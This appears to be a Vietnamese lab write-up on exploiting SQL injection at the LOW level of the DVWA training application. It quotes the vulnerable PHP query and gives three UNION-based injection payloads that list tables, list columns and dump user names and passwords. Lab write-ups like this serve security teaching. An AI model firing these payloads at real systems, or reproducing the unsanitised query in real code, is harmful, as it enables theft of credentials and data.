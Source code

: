 <img width="599" height="273" alt="image" src="https://github.com/user-attachments/assets/4262f33e-5dbe-42d2-bf1c-8b37e744e79a" /># SQL Injection in DVWA

Mức độ: **LOW**, **MEDIUM**, **HIGH**

---

## 🔹 LEVEL: LOW

### 📌 Description:
<img width="605" height="164" alt="image" src="https://github.com/user-attachments/assets/446e0272-30ec-4fba-9baf-4fee24152eb6" />

Lab cung cấp một trường nhập `ID` của người dùng, và kết quả trả về gồm:

- `ID`
- `First name`
- `Surname`

  <img width="387" height="143" alt="image" src="https://github.com/user-attachments/assets/82fcd3ca-6573-4949-8737-6cf3703f6472" />


---

### 🎯 Goals:
Trích xuất nhiều thông tin hơn từ database.

---

### 🔍 Phân tích:
Lab cung cấp source code với câu lệnh:

```php
$query = "SELECT first_name, last_name FROM users WHERE user_id = '$id';"
```

→ Không xử lý đầu vào → dễ bị SQLi.

---

### 🧪 Khai thác:

- Liệt kê tên bảng:
```sql
1' UNION SELECT NULL, table_name FROM information_schema.tables#
```
<img width="406" height="656" alt="image" src="https://github.com/user-attachments/assets/25cc8013-fa05-4ae9-b01e-d8ce69e2261f" />

- Liệt kê tên cột trong bảng `users`:
```sql
1' UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name='users'#
```
<img width="611" height="555" alt="image" src="https://github.com/user-attachments/assets/a68638d2-80fd-4818-9ef6-5d18c928d004" />

- Lấy user và password:
```sql
1' UNION SELECT user, password FROM users#
```
<img width="517" height="448" alt="image" src="https://github.com/user-attachments/assets/893024cd-b0ca-4c9e-8f71-54e70dea5c8f" />

---